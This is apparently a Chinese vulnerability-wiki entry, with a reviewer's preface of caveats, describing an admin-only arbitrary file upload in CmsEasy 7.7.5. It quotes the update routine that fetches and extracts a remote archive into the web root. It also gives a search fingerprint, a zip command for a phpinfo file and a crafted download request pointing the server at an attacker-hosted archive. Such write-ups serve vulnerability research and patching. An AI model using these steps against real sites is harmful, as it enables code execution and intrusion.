





## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：7.7.5_20210919; admin update permission; reachable attacker archive; executable extraction destination

- **结论使用边界（1）**：Function downloads and extracts remote archive rather than direct multipart upload; classify correctly。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **结论使用边界（2）**：Encoding helper not reproduced and hardcoded encrypted URL hides destination; link companion service.php analysis。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **操作与副作用边界（3）**：Updating endpoint has cache/deletion/SQL side effects visible in code, which reproduction must disclose。保留原步骤及请求方法。执行条件包括隔离且获授权的可恢复环境、预先记录相关文件/账号/配置/业务记录状态；响应完成不能等同无副作用，恢复时须核对该操作涉及的实际对象。

- **事实待核（4）**：Secondary source only; no fixed version。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# CmsEasy update_admin.php 后台任意文件上传漏洞

## 漏洞描述

CmsEasy 后台存在任意文件上传漏洞，通过文件 service.php 加密Url参数执行即可上传任意文件

## 漏洞影响

```
CmsEasy V7.7.5_20210919
```

## 网络测绘

```
body="cmseasyedit"
```

## 漏洞复现


存在漏洞的文件为 `lib/admin/update_admin.php`



其中需要注意的代码为

```
function downfile_action()
    {
        $url = front::get('url');
        $url=service::getInstance()->unlockString($url,"cmseasy_url");
        $res = $this->get_file($url, 'cache');
        if (!$res) {
            $res = array(
                'err' => 1,
                'data' => lang_admin('update_package_download_failed'),
            );
        } else {
            @unlink('upgrade/config_cn.php');
            @unlink('upgrade/config_cn.tmp.php');
            @unlink('upgrade/upgrade.sql');
            @unlink('upgrade/command.php');
            front::remove(ROOT.'/cache/data');
            front::remove(ROOT.'/cache/template');//清空全部语言
            $langdata=getlang();
            if($langdata != ""){
                foreach ($langdata as $key=>$val){
                    front::remove(ROOT.'/cache/'.$val['langurlname']);
                    front::remove(ROOT.'/'.$val['langurlname'].'/template');
                }
            }
            //先清空缓存
            user::deletesession();
            category::deletesession();
            //提取分类
            if(file_exists(ROOT."/lib/table/type.php")) {
                type::deletesession();
            }
            //提取专题
            if(file_exists(ROOT."/lib/table/special.php")) {
                special::deletesession();
            }
            $archive = new PclZip('cache/patch.zip');
            $archive->extract(PCLZIP_OPT_PATH, ROOT, PCLZIP_OPT_REPLACE_NEWER);

            if(file_exists('upgrade/upgrade.sql')) {
                $sqlquery = file_get_contents('upgrade/upgrade.sql');
                $sqlquery = str_replace('`cmseasy_', '`' . config::getdatabase('database', 'prefix'), $sqlquery);

                $sqlquery = str_replace("\r", "", $sqlquery);
                $sqls = preg_split("/;(--)*[ \t]{0,}\n/", $sqlquery);
                $this->exec_cms_sql($sqls);
            }

            if(file_exists('upgrade/command.php')){
                include ROOT . '/upgrade/command.php';
            }
            $res = array(
                'err' => 0,
                'message' => $this->message,
                'data' => lang_admin('upgrade_successful'),
            );
        }

        echo json_encode($res);
        exit;
    }
```

其中使用 unlockString 和 get_file 方法

```
$url = front::get('url');
$url=service::getInstance()->unlockString($url,"cmseasy_url");
$res = $this->get_file($url, 'cache');
```



写入后在上层目录写入文件，即Web根目录，创建压缩包并上传可访问的服务器上

```
zip phpinfo.zip phpinfo.php
```

构造下载请求



```
/index.php?case=update&act=downfile&admin_dir=admin&site=default&url=buTdBnP8%3DJ%3DELYuF8Z2IwZyM-awr9fH%3D0cax6mxICukxw
```





---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
